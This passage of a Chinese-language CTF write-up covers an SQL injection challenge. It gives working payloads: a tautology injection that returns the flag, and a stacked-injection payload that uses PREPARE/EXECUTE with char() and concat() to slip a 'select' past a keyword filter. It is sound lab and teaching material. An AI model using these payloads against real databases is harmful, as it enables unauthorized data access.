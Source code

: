    ```sql
   1' or '1'='1’ #
   
   或者 
   
   1' or '1'='1
   ```

   返回值

   ```
   array(1) {
     [0]=>
     string(42) "flag{bb0b5e1e-d7e6-4ed1-8b53-5a1540d0bff8}"
   }
   ```

   

#### 方法二：预处理语句+堆叠注入

预处理语句使用方式：

```sql
PREPARE name from '[my sql sequece]';   //预定义SQL语句
EXECUTE name;  //执行预定义SQL语句
(DEALLOCATE || DROP) PREPARE name;  //删除预定义SQL语句
```

预定义语句也可以通过变量进行传递:

```sql
SET @tn = 'hahaha';  //存储表名
SET @sql = concat('select * from ', @tn);  //存储SQL语句
PREPARE name from @sql;   //预定义SQL语句
EXECUTE name;  //执行预定义SQL语句
(DEALLOCATE || DROP) PREPARE sqla;  //删除预定义SQL语句
```

本题即可利用`char()`方法将`ASCII码`转换为`SELECT`字符串，接着利用`concat()`方法进行拼接获得查询的`SQL语句`，来绕过过滤或者直接使用`concat()`方法绕过

```sql
char（）根据ASCII表返回给定整数值的字符值
eg:
mysql> SELECT CHAR(77,121,83,81,'76');
-> 'MySQL'

contact（）函数用于将多个字符串连接成一个字符串
contact (str1,str2,…) 
eg:
mysql> SELECT CONCAT('My', 'S', 'QL');
-> 'MySQL'
char(115,101,108,101,99,116)<----->'select'
```

**payload1：**不使用变量

```sql
1';PREPARE jwt from concat(char(115,101,108,101,99,116), ' * from `1919810931114514` ');EXECUTE jwt;#
```


[^1]: 此处 # 作用是注释 忽略 # 之后的语句 [参考资料](https://blog.csdn.net/github_36032947/article/details/78442189) 
[^2]: 这句话的逻辑 不是特别清楚 网上搜了很多 但是都是这一道题目的 没有讲具体的逻辑 目前推断是 能堆叠 防止你乱搞 所以才禁止了这些关键词 否则直接禁止了堆叠注入 就根本不用禁止了 而且此时是联合注入
[^3]: ../ 是跳转到上级目录